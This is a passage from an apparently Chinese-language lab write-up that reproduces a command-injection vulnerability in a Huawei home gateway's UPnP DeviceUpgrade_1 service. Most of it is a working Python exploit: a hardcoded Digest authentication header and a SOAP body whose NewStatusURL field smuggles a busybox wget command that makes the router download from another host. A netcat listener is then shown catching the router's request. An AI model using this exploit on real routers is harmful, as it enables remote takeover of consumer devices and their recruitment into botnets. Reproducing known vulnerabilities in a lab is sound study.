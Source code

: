 <img src="./img/porttest.png">

#### EXP 脚本

根据披露的payload，构造EXP 脚本如下

```
import requests

headers = {
    "Authorization": "Digest username=dslf-config, realm=HuaweiHomeGateway, nonce=88645cefb1f9ede0e336e3569d75ee30, uri=/ctrlt/DeviceUpgrade_1, response=3612f843a42db38f48f59d2a3597e19c, algorithm=MD5, qop=auth, nc=00000001, cnonce=248d1a2560100669"
}

data = '''<?xml version="1.0" ?>
 <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
   <NewStatusURL>;/bin/busybox wget -g 192.168.83.19 -l /tmp/1 -r /1;</NewStatusURL>
   <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>
  </u:Upgrade>
 </s:Body>
</s:Envelope>
'''
requests.post('http://192.168.83.17:37215/ctrlt/DeviceUpgrade_1',headers=headers,data=data)
```

监听发现80端口(sudo nc -vlp 80 )收到路由器发来的wget包，试图获取文件1(我没创建)，说明路由器成功执行exp中的wget指令

<img src="./img/wget.png">
